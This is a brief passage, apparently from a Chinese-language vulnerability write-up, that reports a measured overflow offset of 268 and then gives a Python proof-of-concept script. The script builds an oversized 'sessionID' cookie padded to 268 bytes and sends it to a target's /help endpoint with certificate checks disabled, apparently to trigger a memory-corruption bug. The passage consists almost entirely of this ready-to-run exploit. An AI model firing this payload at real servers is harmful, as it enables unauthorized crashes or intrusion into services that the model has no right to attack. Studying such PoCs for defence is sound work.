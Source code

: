 经过调试，测得偏移为268,POC如下：

```python

from pwn import *
import requests
import urllib3
import sys

url = sys.argv[1]

if url[-1:]=='/':
   url=url[:-1]

payload = "sessionID=1234".ljust(268,"a")

urllib3.disable_warnings()

url= url+"/help"
head= {'Cookie':payload}
r=requests.get(url,headers=head,verify=False)

print(r)
print(r.text)
print(r.content)

```
